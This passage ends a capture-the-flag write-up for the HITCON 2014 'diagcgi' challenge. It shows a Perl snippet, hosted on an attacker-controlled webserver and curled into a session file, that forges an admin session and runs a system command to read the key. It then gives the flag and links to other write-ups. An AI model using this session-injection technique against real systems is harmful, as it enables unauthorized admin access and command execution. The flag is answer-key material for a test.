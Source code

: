 Leveraging these bits of information we write the following in to a webserver we control:

```perl
$sesshash{'ip'} = 'YOUR.IP.GOES.HERE';
$sesshash{'user'} = 'admin';
system("/read_key /key.txt >> /tmp/test.txt");
```

Then we simply `curl` that into our session file, reload the page to have our session read and then read `/tmp/test.txt` to get the key.

The flag is `HITCON{a755be06b165ed8fc4710d3544fce942}`.

## Other write-ups and resources

* <http://givemesecurity.info/2014/08/18/diagcgi-writeup-hitcon-2014/>
* <https://gist.github.com/connection/f90a01c09601c600a332>, related [notes](http://cuby.hu/hitcon-lol-notes-then-not-writeups.txt)
* <https://rzhou.org/~ricky/hitcon2014/diagcgi/>
